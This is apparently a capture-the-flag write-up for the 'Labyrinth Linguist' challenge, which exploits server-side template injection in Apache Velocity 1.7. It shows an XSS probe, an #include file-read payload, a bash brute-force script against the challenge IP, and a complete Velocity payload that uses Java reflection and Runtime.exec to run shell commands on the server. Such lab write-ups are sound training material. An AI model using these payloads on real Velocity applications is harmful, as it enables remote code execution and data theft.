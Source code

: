 ## Labyrinth Linguist

#### 1. Initial Recon

Simple page where user submits an input to be translated into the made up "voxalith" language.

After inputting a text, I inspect the html using DevTools and see that my text is simply inserted directly into to DOM:

```
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Labyrinth Linguist 🌐</title>
    <link rel="stylesheet" href="/css/style.css">
</head>
<body>
    <form class="fire-form" action="" method="post">
        <span class="fire-form-text">Enter text to translate english to voxalith!</span><br><br>
        <input class="fire-form-input" type="text" name="text" value="">
        <input class="fire-form-button" type="submit" value="Submit →">
    </form>
    <h2 class="fire">hello</h2>  # my input "hello"
</body>
```

With this knowledge, we are likely dealing with an unsanitized input vulnerability.

#### 2. Injection Testing

The payload to test unsanitized JS inputs:

```
<script>alert('hello')</script>
```

This yields an error message so we know that the input is not properly sanitized. This XSS vulnerability is a great step but is a client side vulnerability - we want to be able to interact with the server side to give us the contents of the flag.txt file so we will keep searching for other injection types.

After taking a look at the challenge files, the pom.xml file lets us know that the application is using a template service Apache Velocity v1.7 so we can look into a potential template injection vulnerability. What the template essential does for this service is replace any value containing "TEXT" with what we enter for the ?text parameter or the submission. 

To first test if template injection is possible, I will enter $name and if the page returns "world" the vulnerability is proved. The below lines in the main.java file show that the template is creating a variable "name" with "World" as its value:

```
t.setData(runtimeServices.parse(reader, "home"));
			t.initDocument();
			VelocityContext context = new VelocityContext();
			context.put("name", "World");
```

The test results: 



Great, we have proven SSTI, now to get the flag.

#### SSTI injection with Apache Velocity Template

So quick basics on Velocity tell me that $ marks variables and # marks commands. Here is the documentation for Velocity:

https://velocity.apache.org/engine/1.7/user-guide.html

So, the following:

```
#set ($run=1 + 1) $run 
```

Should put 2 on the page. Let me try.



As expected, the page rendered the value 2, so the above payload worked. Now how do we retrieve a file on the server?

After reading through the Velocity documentation, there is a directive (command) that will allow us to retrieve content on the server side. This magical directive is #include, the format for this directive is #include("/what/we/want"). To test this, we can first try getting files we know about like the pom.xml file.

Success, the contents of the pom file are outputted:



But after playing around searching for the flag.txt and trying common directories, there is no luck.

entrypoint.sh tells us that they renamed the /flag.txt file to /flag**********.txt where the *** part comes from the following command:

```
# Change flag name
mv /flag.txt /flag$(cat /dev/urandom | tr -cd "a-f0-9" | head -c 10).txt
```

With this knowledge, I can create a brute force script that will try different combinations of /flag**********.txt until the http response is 200. 

The script:

```
#!/bin/bash

# Base URL
base_url="http://94.237.51.188:37293?text=%23include%28%22%2FflagHERE.txt%22%29" #url encoded

echo "Starting brute force..."

while true; do
    # Generate a random 10-character string
    random_string=$(cat /dev/urandom | tr -cd "a-f0-9" | head -c 10)

    # Replace "HERE" with the random string in the URL
    url=${base_url/HERE/$random_string}
    echo $url
    # Execute the curl command
    response=$(curl -s -o /dev/null -w "%{http_code}" "$url")

    # Check if the status is 200
    if [ "$response" -eq 200 ]; then
        echo "Success! File found with URL: $url"
        echo "Check the url for the flag"
        exit 0
    fi
done

```

Ok, I'll admit, trying a brute force was pretty gung ho of me. The creators of this flag probably didn't envision a brute force method. Probably something with more touch.

After considerable research into SSTI with Apache Velocity, I came across an article on iwconnect.com (linked below) that provides excellent insight into the SSTI vulnerabilities with velocity by making use of Java within velocity affirmatives. This site also provided the payload necessary to find & read the flag. Below is the payload used:

```
#set($s="")
#set($stringClass=$s.getClass())
#set($stringBuilderClass=$stringClass.forName("java.lang.StringBuilder"))
#set($inputStreamClass=$stringClass.forName("java.io.InputStream"))
#set($readerClass=$stringClass.forName("java.io.Reader"))
#set($inputStreamReaderClass=$stringClass.forName("java.io.InputStreamReader"))
#set($bufferedReaderClass=$stringClass.forName("java.io.BufferedReader"))
#set($collectorsClass=$stringClass.forName("java.util.stream.Collectors"))
#set($systemClass=$stringClass.forName("java.lang.System"))
#set($stringBuilderConstructor=$stringBuilderClass.getConstructor())
#set($inputStreamReaderConstructor=$inputStreamReaderClass.getConstructor($inputStreamClass))
#set($bufferedReaderConstructor=$bufferedReaderClass.getConstructor($readerClass))

#set($runtime=$stringClass.forName("java.lang.Runtime").getRuntime())
#set($process=$runtime.exec("cat ../flag.txt"))
#set($null=$process.waitFor() )

#set($inputStream=$process.getInputStream())
#set($inputStreamReader=$inputStreamReaderConstructor.newInstance($inputStream))
#set($bufferedReader=$bufferedReaderConstructor.newInstance($inputStreamReader))
#set($stringBuilder=$stringBuilderConstructor.newInstance())

#set($output=$bufferedReader.lines().collect($collectorsClass.joining($systemClass.lineSeparator())))

$output
```

I used burpsuite repeater to make the request (and make countless other failed injection attempts):






#### Resources

https://iwconnect.com/apache-velocity-server-side-template-injection/
https://antgarsil.github.io/posts/velocity/
https://www.blackhat.com/docs/us-15/materials/us-15-Kettle-Server-Side-Template-Injection-RCE-For-The-Modern-Web-App-wp.pdf
https://velocity.apache.org/engine/1.7/user-guide.html
https://portswigger.net/web-security/server-side-template-injection
